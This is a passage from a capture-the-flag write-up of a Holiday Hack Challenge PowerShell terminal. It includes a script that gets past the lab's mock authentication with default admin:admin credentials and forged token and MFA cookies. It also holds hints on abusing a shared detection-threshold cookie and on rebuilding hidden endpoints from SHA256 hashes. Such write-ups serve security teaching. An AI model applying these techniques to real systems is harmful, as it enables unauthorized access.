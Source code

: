 ```powershell
$md5Sum = $csvData.Column1

$response = Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/$sha256Sum" -Headers @{
    Authorization = "Basic $([Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes('admin:admin')))"
    Cookie = "token=$md5Sum"
} -UseBasicParsing

$time_code = [regex]::match($response.Content,"href='(.+)'").Groups[1].Value
$urlpath = [regex]::match($response.Content,"'>(.+)</a>").Groups[1].Value

$response = Invoke-WebRequest -Uri "http://127.0.0.1:1225$urlpath" -Headers @{
    Authorization = "Basic $([Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes('admin:admin')))"
    Cookie = "mfa_code=$time_code; token=$md5Sum; mfa_token=$time_code"
} -UseBasicParsing

[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String([regex]::match($response.Content,"<p>(.+)</p>").Groups[1].Value))
```

**Output 1**

```
Correct Token supplied, you are granted access to the snow cannon terminal. Here is your personal password for access: SnowLeopard2ReadyForAction
```

#### Final

> Hurray! You have thwarted their defenses!
> Alabaster can now access their weaponry and put a stop to it.
> Once HHC grants your achievement, you can close this terminal.

![Powershell silver final](/images/act2/powershell-1.png)

### Gold

#### Hints

> PowerShell Admin Access - Fakeout EDR Threshold
> From:
> Terminal: PowerShell
> They also mentioned this lazy elf who programmed the security settings in the weapons terminal. He created a fakeout protocol that he dubbed Elf Detection and > Response "EDR". The whole system is literally that you set a threshold and after that many attempts, the response is passed through... I can't believe it. He > supposedly implemented it wrong so the threshold cookie is highly likely shared between endpoints!

> PowerShell Admin Access - Total Control
> From:
> Terminal: PowerShell
> I overheard some of the other elves talking. Even though the endpoints have been redacted, they are still operational. This means that you can probably elevate your access by communicating with them. I suggest working out the hashing scheme to reproduce the redacted endpoints. Luckily one of them is still active and can be tested against. Try hashing the token with SHA256 and see if you can reliably reproduce the endpoint. This might help, pipe the tokens to Get-FileHash -Algorithm SHA256.
